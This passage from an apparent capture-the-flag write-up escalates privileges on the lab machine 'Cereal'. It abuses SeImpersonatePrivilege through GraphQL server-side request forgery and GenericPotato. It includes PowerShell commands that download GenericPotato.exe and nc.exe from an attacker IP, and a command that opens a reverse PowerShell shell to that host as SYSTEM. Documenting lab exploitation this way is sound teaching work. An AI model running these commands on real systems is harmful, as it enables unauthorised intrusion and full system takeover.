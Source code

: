 The user _sonny_ has the _SeImpersonatePrivilege_ permission enabled:
```
whoami /all
```
```
Privilege Name                Description                               State
============================= ========================================= =======
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
```

Unfortunately there is a firewall that denies connections to outbound port 135 and a **RoguePotato** attack is not possible.
When checking the listening ports with `netstat -an` there is port 8080 running.

Forwarding port 8080 to our local client:
```
ssh -L 8080:127.0.0.1:8080 sonny@10.10.10.217
```

When browsing to _127.0.0.1:8080_ it is possible to access this web service with the title _"Cereal System Manager"_.
By inspecting the network connections with the browsers **Developer Tools**, it shows that it makes a connection to _/api/graphql_.

**GraphQL** is a query language for APIs and I will use [GraphQL Playground](https://github.com/graphql/graphql-playground) to interact with it.
```
URL Endpoint: http://localhost:8080/api/graphql
```

This IDE shows the _schema_ and _docs_ on the right side and we can request the data and enumerate API for useful information.
The query _updatePlant_ has an argument _sourceURL_ that allows us to run HTTP requests:
```
mutation {
  updatePlant(plantId:1, version:1.1, sourceURL:"http://10.10.14.11/")
}
```

This feature can be used to abuse a **Server-Side Request Forgery** attack and escalate privileges of the current user.
For this exploit I will use [GenericPotato](https://github.com/micahvandeusen/GenericPotato).

Downloading _GenericPotato.exe_ and _nc.exe_ onto the box:
```
powershell wget 10.10.14.11/GenericPotato.exe -o GenericPotato.exe

powershell wget 10.10.14.11/nc.exe -o nc.exe
```

Executing _GenericPotato.exe_ and starting the listener on port 8888:
```
GenericPotato.exe -e HTTP -p nc.exe -a "10.10.14.11 80 -e powershell"

[+] Starting HTTP listener on port http://127.0.0.1:8888
[+] Listener ready
```

Sending a request to the listener from the **GraphQL** service:
```
mutation {
  updatePlant(plantId:1, version:1.1, sourceURL:"http://127.0.0.1:8888/")
}
```

After sending the request, the listener on my IP and port 80 starts a reverse shell as System!
